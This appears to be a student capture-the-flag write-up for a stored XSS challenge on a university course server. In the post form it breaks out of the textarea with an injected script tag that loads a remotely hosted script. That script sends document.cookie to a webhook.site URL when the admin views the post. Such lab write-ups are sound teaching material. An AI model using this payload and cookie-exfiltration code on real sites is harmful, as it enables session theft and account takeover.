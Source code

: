 # Challenge `Read my lips: No more scripts!` writeup

- Vulnerability: What type of vulnerability is being exploited
  - Vulnerable to XSS

- Where: Where is the vulnerability present
  - `http://mustard.stt.rnl.tecnico.ulisboa.pt:23254`, on the create a post form

- Impact: What results of exploiting this vulnerability
  - Allows the user to run code through XSS, used to steal cookies

## Steps to reproduce

1. Access `http://mustard.stt.rnl.tecnico.ulisboa.pt:23254`
2. The textarea for writing a post is vulnerable to an html injection and external scripts can be executed
3. We can close the textarea and write arbitrary html to be read
4. The following code, created to be executed by the admin, and hosted on `http://web.tecnico.ulisboa.pt/~ist1110846/ctf.js`:

```js
var url = 'http://webhook.site/a3d25143-6e57-4354-b50c-c0c6fe1a3db9/?cookies=' + encodeURIComponent(document.cookie);
fetch(url);
```

5. To get the flag, a post with the following content was created and sent for admin approval:

```html
</textarea><script src="http://web.tecnico.ulisboa.pt/~ist1110846/ctf.js"></script><textarea>
```
